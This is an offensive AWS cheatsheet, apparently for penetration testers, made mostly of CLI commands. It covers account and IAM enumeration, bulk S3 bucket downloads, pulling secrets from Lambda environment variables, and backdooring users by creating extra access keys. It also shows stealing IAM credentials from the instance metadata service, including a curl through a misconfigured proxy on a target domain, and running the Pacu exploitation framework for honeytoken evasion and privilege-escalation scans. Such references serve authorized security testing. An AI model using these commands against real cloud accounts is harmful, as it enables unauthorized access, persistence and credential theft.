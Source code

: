 ## Amazon Web Services (AWS) CLI Tool Cheatsheet

#### Authentication

Set AWS programmatic keys for authentication (use --profile=<name> for a new profile)

```bash
aws configure
```

#### Open S3 bucket enumeration

List the contents of an S3 bucket

```bash
aws s3 ls s3://<bucketname>/ 
```

Download contents of bucket

```bash
aws s3 sync s3://bucketname s3-files-dir
```

#### Account Information

Get basic account info

```bash
aws sts get-caller-identity
```

List IAM users

```bash
aws iam list-users
```

List IAM roles

```bash
aws iam list-roles
```

List S3 buckets accessible to an account

```bash
aws s3 ls
```

#### Virtual Machines

List EC2 instances

```bash
aws ec2 describe-instances
```

#### WebApps & SQL

List WebApps

```bash
aws deploy list-applications
```

List AWS RDS (SQL)

```bash
aws rds describe-db-instances --region <region name>
```

Knowing the VPC Security Group ID you can query the firewall rules to determine connectivity potential

```bash
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
```

#### Serverless

List Lambda Functions

```bash
aws lambda list-functions --region <region>
```

Look at environment variables set for secrets and analyze code

```bash
aws lambda get-function --function-name <lambda function>
```

#### Networking

List EC2 subnets

```bash
aws ec2 describe-subnets
```

List ec2 network interfaces

```bash
aws ec2 describe-network-interfaces
```

List DirectConnect (VPN) connections

```bash
aws directconnect describe-connections
```

#### Backdoors

List access keys for a user

```bash
aws iam list-access-keys --user-name <username>
```

Backdoor account with second set of access keys

```bash
aws iam create-access-key --user-name <username>
```

### Instance Metadata Service URL

```bash
http://169.254.169.254/latest/meta-data
```

Additional IAM creds possibly available here

```bash
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

IMDS Version 2 has some protections but these commands can be used to access it

```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

### Other AWS Tools

#### WeirdAAL

https://github.com/carnal0wnage/weirdAAL

Run recon against all AWS services to enumerate access for a set of keys

```python
python3 weirdAAL.py -m recon_all -t <name>
```

#### Pacu

AWS exploitation framework

https://github.com/RhinoSecurityLabs/pacu

Install Pacu

```bash
sudo apt-get install python3-pip
git clone https://github.com/RhinoSecurityLabs/pacu
cd pacu
sudo bash install.sh
```

Import AWS keys for a specific profile

```bash
import_keys <profile name>
```

Detect if keys are honey token keys

```bash
run iam__detect_honeytokens
```

Enumerate account information and permissions

```bash
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

Check for privilege escalation 

```bash
run iam__privesc_scan
```
